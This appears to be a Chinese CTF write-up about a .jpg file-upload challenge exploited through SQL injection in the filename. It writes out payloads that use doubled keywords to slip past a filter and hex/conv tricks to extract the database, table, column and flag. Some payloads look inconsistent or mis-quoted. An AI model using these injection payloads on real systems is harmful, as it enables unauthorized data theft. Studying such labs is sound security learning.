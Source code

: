## 题目描述

![image-20210117193823007](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117193823007.png)

首先是一个注册界面，填入邮箱密码注册之后，点击login，然后进入到上图的界面，可以选择一个文件进行上传，但是上传文件的后缀名必须为.jpg文件名后缀。

## 御剑扫描后台

使用御剑进行扫描，发现存在includes文件夹：

![image-20210117195054337](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117195054337.png)

好像并没有什么用处……

## 使用burp suite拦截包



![image-20210117201930639](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117201930639.png)



![image-20210117202133639](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117202133639.png)

网上的write up查了过滤的规则，我没有弄清楚他是怎么查的，根据intruder里面的功能，对指定的payload查询过滤规则，本题要对filename那里的过滤规则进行查询，因为我们的目标是通过这个网站上传文件之后的回显功能，再根据sql注入，通过回显来查询到我们所需要的信息，比如数据库，表名之类的信息。

网上说这个服务器中对filename进行了双写绕过（然后我硬是没有搞明白这一步是怎么弄的，这里还没有搞明白怎么设置过滤）

## sql注入

通过回显功能，我们可以将文件名改成

a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg

![image-20210117220936612](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117220936612.png)



本来是select database()便可以得到数据库的名称，但是在这道题中，存在两个问题：

1.首先，超出一定的长度会出现科学计数法：

![image-20210117221520355](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117221520355.png)

所以需要对得到的数据库名进行substr操作得到子字符串。

2.其次，在使用十六进制的时候，会把出现字母（abcdef）的内容给截掉，所以我们要使用conv函数将十六进制的转化成十进制。

最终通过两个payload得到数据库名：

（在这里有个疑问就是为什么要把select打成selselectect呢？）

```mysql
a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg
a' +(selselectect conv(substr(hex(database()),12,15),16,10))+ '.jpg
```

得到的回显结果如下图所示：

![image-20210117221737631](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117221737631.png)

得到的是十进制的结果，我们要先把这些十进制的结果转化成十六进制，再将十六进制转化成字符串文本内容，得到的就是数据库的名称。

![image-20210117222850309](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117222850309.png)

7765625f7570

![image-20210117222918722](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117222918722.png)

6c6f6164

![image-20210117223004406](C:\Users\pengsj\AppData\Roaming\Typora\typora-user-images\image-20210117223004406.png)

所以数据库的名称为web_upload.

接下来依次对表名、列名、字段名进行相同的操作得到flag：

**查询表名**

a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit  1,1)),1,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit  1,1)),1,12),16,10))+'.jpg

 a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA =  'web_upload' limit 1,1)),25,12),16,10))+'.jpg

按照上述转换操作得到的结果是：hello_flag_is_here

**查询列名**

s ‘+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = ‘hello_flag_is_here’  limit 0,1)),1,12),16,10))+’.jpg

s ‘+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = ‘hello_flag_is_here’  limit 0,1)),13,12),16,10))+’.jpg

得到的结果是i_am_flag

**查询字段内容**

s ‘+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),1,12),16,10))+’.jpg

s ‘+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),13,12),16,10))+’.jpg

s ‘+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),25,12),16,10))+’.jpg

得到的结果是!!_@m_Th.e_F!lag，所以flag就是这个。

